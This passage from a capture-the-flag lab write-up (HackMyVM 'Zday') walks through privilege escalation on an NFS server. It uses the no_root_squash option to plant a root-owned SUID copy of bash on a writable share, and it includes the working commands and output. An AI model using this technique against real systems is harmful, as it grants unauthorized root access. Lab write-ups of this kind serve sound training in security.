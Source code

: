 ## Post Exploitation
Remember that the target is running an NFS server, a common misconfiguration in this service is to set the **no_root_squash** option on directories. This option gives authority to the root user on the client to access files on the NFS server as root. It means that the root user on the client can perform actions on the share as the root user on the machine hosting the share. We can exploit this by setting the SUID bit as root to executables in the share. Let's first check if this option is set by looking in the configuration file of NFS.
```bash
$ cat /etc/exports
/images *(ro,sync,no_wdelay,no_subtree_check,insecure_locks,no_root_squash,insecure,fsid=0)
/images/dev *(rw,async,no_wdelay,no_subtree_check,no_root_squash,insecure,fsid=1)
$ 
```
 We can see that no_root_squash is enabled on both shares but only the /images/dev share is writable so let's unmount the /images share we mounted above and mount this one.
```bash
┌──(root㉿kali)-[~whitemiller/Desktop/HackMyVM/Zday/Misc File]
└─# umount nfs-share

┌──(root㉿kali)-[~whitemiller/Desktop/HackMyVM/Zday/Misc File]
└─# mount -t nfs 10.0.2.5:/images/dev nfs-share
```
Since we use different versions of Linux with the target, we can't copy our version of bash to the target or it will not work. Hence, we will use the fogproject user to copy the target's bash shell and place it in the NFS share dev directory located at **/images/dev**.
```bash
$ cp /bin/bash /images/dev/
$ ls -l /images/dev/
total 1148
-rwxr-xr-x 1 fogproject fogproject 1168776 Sep 11 12:24 bash
drwxrwxrwx 2 fogproject root          4096 Mar 10  2021 postinitscripts
$ 
```
We now use our root user to change the ownership of that shell copied into the NFS share and set the SUID bit.
```bash
┌──(root㉿kali)-[/Zday/Misc File]
└─# ls -l nfs-share
-rwxr-xr-x 1 1001 1001 1168776 Sep 11 17:24 bash
drwxrwxrwx 2 1001 root    4096 Mar 10  2021 postinitscripts

┌──(root㉿kali)-[/Zday/Misc File]
└─# chown root:root nfs-share/bash

┌──(root㉿kali)-[/Zday/Misc File]
└─# chmod 4755 nfs-share/bash     

┌──(root㉿kali)-[/Zday/Misc File]
└─# ls -l nfs-share            
-rwsr-xr-x 1 root root 1168776 Sep 11 17:24 bash
drwxrwxrwx 2 1001 root    4096 Mar 10  2021 postinitscripts
```
We can go back to our ssh session and run the bash shell which has the SUID bit set by our root user.
```bash
$ ls -l /images/dev 
total 1148
-rwsr-xr-x 1 root       root 1168776 Sep 11 12:24 bash
drwxrwxrwx 2 fogproject root    4096 Mar 10  2021 postinitscripts
$whoami
fogproject
$ /images/dev/bash -p
bash-5.0# whoami
root
```